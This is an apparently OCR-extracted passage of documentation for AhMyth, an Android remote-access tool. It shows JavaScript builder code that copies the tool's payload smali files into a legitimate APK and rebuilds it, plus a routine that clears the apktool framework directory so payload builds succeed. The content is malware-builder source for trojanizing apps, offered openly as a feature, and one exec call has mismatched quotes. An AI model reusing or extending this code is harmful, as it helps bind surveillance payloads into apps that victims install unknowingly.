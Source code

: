                                           var smaliFolder = m[0];
              
                                          $appCtrl.Log("Copying AhMyth Payload Files to Orginal APK...");
                                          $appCtrl.Log();
                                          fs.copy(path.join(CONSTANTS.ahmythApkFolderPath, "smali"), path.join(apkFolder, smaliFolder), (error) => {
                                              if (error) {
                                                  $appCtrl.Log('Copying Failed!', CONSTANTS.logStatus.FAIL);
                                                  $appCtrl.Log();
                                                  return;
                                                }
                                                
                                                $appCtrl.GenerateApk(apkFolder);
                                
                                            });
                                            
                                        });
                
                                    });
                
                                });

                            });

                        });

                    });

                });
```
# Function to Empty the Apktool Framework Directory
This Code will reduce building failed errors with both Standalone APK payloads and Bound APK Payloads, it empties the apktool framework directory before building any payload everytime
- AppCtrl.js
```js

        // empty the framework directory
        try {
          $appCtrl.Log("Emptying the Apktool Framework Directory")
          $appCtrl.Log();
          exec('java -jar ' + CONSTANTS.apktoolJar + '" empty-framework-dir "', (error, stderr, stdout) => {
            if (error) {
              throw error;
            };
          });
        } catch (error) {
          // ignore the error by doing nothing!
        }

        // Build the AhMyth Payload APK
```

# New Cross platform Bind on Launch function
